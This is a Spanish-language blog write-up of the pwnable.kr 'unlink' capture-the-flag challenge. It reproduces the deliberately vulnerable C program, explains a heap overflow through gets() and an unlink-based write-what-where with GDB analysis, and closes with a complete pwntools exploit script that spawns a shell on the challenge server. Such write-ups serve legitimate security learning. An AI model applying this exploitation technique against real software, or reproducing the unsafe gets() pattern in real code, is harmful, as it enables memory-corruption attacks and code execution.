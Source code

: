 ```yaml
---
layout: post
title: pwnable.kr unlink - Heap Overflow via Double-Linked list y Write-What-Where
author: c4rta
date: 2023-04-16
##categories: [Explotacion binaria]
tags: [heap overflow, double-linked list, write-what-where]
image: 
  path: /assets/img/unlink/waifu.gif
---
```

{:.lead}

Este es un desafio de los gordos, como ayuda, te dejo este gran writeup el cual me ayudo bastante a entender que pedo: [picale aqui](https://youtu.be/81_BMRXDw3c)

## Analisis

Se nos proporciona el codigo fuente del programa, donde primeramente se esta definiendo una estructura llamada ```OBJ```:

```c
typedef struct tagOBJ{
	struct tagOBJ* fd;
	struct tagOBJ* bk;
	char buf[8];
}OBJ;
```

Primero se definen dos punteros a la estructura ```tagOBJ``` llamados ```fd``` y ```bk``` y un arreglo de char (que seria el buffer) con una longitud de 8 bytes, los punteros ```fd``` y ```bk``` son usados normalmente para implementar una lista doblemente enlazada, y para eso esta esta funcion:

```c
void unlink(OBJ* P){
	OBJ* BK;
	OBJ* FD;
	BK=P->bk;
	FD=P->fd;
	FD->bk=BK;
	BK->fd=FD;
}
```

Donde el puntero ```fd``` apunta al siguiente elemento, y ```bk``` apunta al elemento anterior.

Codigo completo:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
typedef struct tagOBJ{
	struct tagOBJ* fd;
	struct tagOBJ* bk;
	char buf[8];
}OBJ;

void shell(){
	system("/bin/sh");
}

void unlink(OBJ* P){
	OBJ* BK;
	OBJ* FD;
	BK=P->bk;
	FD=P->fd;
	FD->bk=BK;
	BK->fd=FD;
}
int main(int argc, char* argv[]){
	malloc(1024);
	OBJ* A = (OBJ*)malloc(sizeof(OBJ));
	OBJ* B = (OBJ*)malloc(sizeof(OBJ));
	OBJ* C = (OBJ*)malloc(sizeof(OBJ));

	// double linked list: A <-> B <-> C
	A->fd = B;
	B->bk = A;
	B->fd = C;
	C->bk = B;

	printf("here is stack address leak: %p\n", &A);
	printf("here is heap address leak: %p\n", A);
	printf("now that you have leaks, get shell!\n");
	// heap overflow!
	gets(A->buf);

	// exploit this unlink!
	unlink(B);
	return 0;
}
```
Se esta haciendo basicamente esto:

- Crea tres nodos (A, B y C)
- Se crea una lista doblemente enlazada con A en primer lugar, B en segundo y C en tercero.
- Muestra la dirección donde el puntero ```&A``` cuando mantiene en el stack como una variable local
- Muestra la dirección en la que se guarda el nodo A en el heap.
- Obtiene un imput el cual puede sobreescribir la memoria que comienza con ```A->buf``` en el heap
- Llama a unlink con el nodo B

### Vulnerabilidad

En la funcion main se esta haciendo un llamado a la funcion gets: ```gets(A->buf);```, donde se esta ocasionando un heap overflow a partir de del nodo A (```A->buf```).

Debido a que ocurrio un heap overflow y el programa soporta una operacion de desvinculacion en el nodo B:
```c
FD->bk=BK;
BK->fd=FD;
```
Debemos de explotar la funcion ```unlink```, donde podemos sobreescribir el ```fd``` y el ```bk``` del nodo B, cuando el nodo B se desvincula, ocurre que:

- El nodo apuntado por B->fd(antes C) cambiará a B->bk(antes A)
- El nodo apuntado por B->bk(antes A) cambiará a B->fd(antes C)

**Metodo de explotacion 1 (incorrecto)**

Podriamos hacer que B->bk apunte a una direccion de ```ebp``` y despues sobrescribirlo con la dirección de la funcion ```shell``` en ```B->fd```

Pero no se puede, si ponemos la direccion de la funcion ```shell()``` en ```B->fd``` o ```B->bk```, no se ve a poder ejecutar por que cuando se ejecute ```BK->fd=FD```, la funcion ```unlink``` tratara de escribir en la misma direccion.

Debido a esto, debemos de hacer que ```B->fd``` o ```B->bk``` siempre apunten a una direccion de memoria con permisos de escritura, donde debemos de tener en cuenta que ```B->bk``` se escribira 4 bytes despues de la direccion de ```B->fd```

## Analisis con GDB

En las ultimas linea de la funcion main, cuando se hace el llamado de ```unlink```:

![](/assets/img/unlink/unlink1.png)

Tenemos algo interesante, El contenido en la dirección ```ebp-4``` se copia en ```ecx``` y antes de que devuelva el valor ```ecx-4``` se asigna al ```esp```, entonces el programa regresará a la dirección que este en ```ecx-4```.

## Write-What-Where

Una vez ejecutando el programa y pasandole varios bytes hasta que ocurra el overflow, podemos ver que tenemos el control de ```eax``` y ```edx```:

![](/assets/img/unlink/unlink2.png)

Y si continuamos la ejecucion del programa, lo que tiene el ```eip``` es la direccion ```0x8048521``` y que ejecuta la intruccion: ```DWORD PTR [eax+0x4], edx```, pero como ```edx``` tiene una direccion invalida entonces va a petar. Y aqui es cuando la instruccion ```mov``` nos proporciona la condicion ```write-what-where```, asi que con esta condicion podemos sobreescribir el ```ebp-0x4``` de cuando de hace el llamado a la funcion ```unlink``` en la funcion ```main```.

Y esto es bastante interesante por que si sobrescribimos el valor de ```ebp-4``` con una dirección del heap, entonces el flujo de ejecución ira a lo que esté escrito 4 bytes antes de lo que apunta esa dirección, y como tenemos control total sobre el heap, podemos escribir la dirección de la funcion ```shell()``` en esa parte.

## Explotacion

Entonces tenemos que:

- Sobreecribiremos ```B->bk``` con la dirección ```ebp-4```
- Agregar 0x10 al stack para llegar al valor que queremos
- Hacer que ```B->fd``` sea igual a una dirección del heap que podamos controlar, más 4 bytes, y podemos usar ```A->buf```
- Y por ultimo escribir la dirección de la función ```shell()``` en A->buf.

### Exploit

```python
from pwn import *

s = ssh(user='unlink', host='pwnable.kr', port=2222, password='guest')
p = s.process('/home/unlink/unlink')

p.recvuntil(': ')
stack = int(p.recv(10), 16)

p.recvuntil(': ')
heap = int(p.recv(10), 16)

p.recv()

shell_addr = 0x080484eb
buf = heap+8
ebp = stack+20

payload = p32(shell_addr) # A->buf
payload += b'A'*12
payload += p32(buf+4) # B->fd
payload += p32(ebp-4) # B->bk

p.sendline(payload)
p.interactive()
```

![](/assets/img/unlink/exploit.png)

Eso ha sido todo, gracias por leer ❤



